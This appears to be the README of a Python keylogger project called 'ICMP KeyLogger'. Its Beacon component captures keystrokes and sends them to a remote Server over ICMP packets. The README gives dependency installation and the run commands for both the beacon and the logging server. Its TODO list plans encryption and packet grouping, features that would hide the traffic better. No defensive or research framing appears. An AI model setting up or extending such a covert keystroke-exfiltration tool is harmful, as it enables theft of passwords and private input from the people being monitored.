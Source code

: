 
# ICMP KeyLogger

## Introduction
ICMP KeyLogger is a basic tool written in python designed to capture and transmit keystrokes over the network using ICMP packets. It is divided into two main components: the Beacon, which captures keystrokes and sends them, and the Server, which receives and logs these keystrokes.

This project is inspired from: https://github.com/krabelize/icmpdoor

### TODO
- Implement encryption for keystroke data.
- Group packets instead of sending keystrokes instantly.

## Requirements
### Windows
- [npcap](https://nmap.org/npcap/)
- pynput
- scapy

### Linux
- pynput
- scapy

## Installation
Install Python dependencies using pip:
```pip install pynput scapy```

## Usage
### Identifying Network Interface on Windows
To find the full name of the network interface:

```ipconfig /all```

Use the Description field of the relevant interface.

### Running the Beacon
Run the Beacon component using the following command. Replace `[interface]` with the actual description of your network interface and `[keylogger server IP]` with the IP address of the server.

```ICMPbeacon.py -i "[interface]" -d [keylogger server IP]```

### Running the Server
Run the Server component with the following command. Replace `[listening interface]` with the network interface the server should listen on and `[beacon IP]` with the IP address of the beacon.

```ICMPlogServ.py -i [listening interface] -d [beacon IP]```

